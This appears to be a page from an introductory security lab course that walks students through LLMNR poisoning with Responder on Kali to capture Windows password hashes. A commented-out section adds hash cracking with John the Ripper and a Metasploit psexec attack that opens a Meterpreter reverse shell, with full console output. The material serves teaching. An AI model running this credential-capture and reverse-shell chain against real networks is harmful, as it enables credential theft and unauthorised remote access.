



# Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a **weak** password.

Specifically, we are looking to take advantage of **"LLMNR"**.  

We will need to load our terminal and start responder.

Let's get started by opening a **Kali** terminal.

Alternatively, you can click on the **Kali** icon in the taskbar.

Let’s become root:

<pre>sudo su -</pre>

Before we start, we need to remove the existing **Responder** database. Do so by running the following:

<pre>rm /usr/share/responder/Responder.db</pre>

Now let’s start **Responder**:

<pre>responder -I eth0</pre>

You should see this:

Let's open **Windows File Explorer** and put in the string **"\\Noooo"** into the address bar at the top.

Switch back to your **Kali** terminal window.

After a few moments, you should see some captured data showing up.  

**Please note there may be an error.  That is OK.**

***                                                                 
<b><i>Continuing the course?  [Next Lab](/IntroClassFiles/Tools/IntroClass/RITAIntroClass/RITA.md)</i></b>

<b><i>Want to go back?  [Previous Lab](/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)</i></b>

<b><i>Looking for a different lab?  [Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---

<!--

THIS SECTION IS BEING REMOVED FOR THE TIME BEING PER JOHN

Next we need to kill Responder with `Ctrl + c`.  This will return the command prompt. 

Now, we need to change to the logs directory.

</pre>cd /opt/Responder/logs</pre>

Once there, we will need to start John The Ripper"

</pre>/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt</pre>
Remember!  Your IP will be different!!!!

If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

Next, let’s open a new Kali instance. The easiest way to do this is to click the Kali icon in the taskbar.

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

</pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!
*/
-->

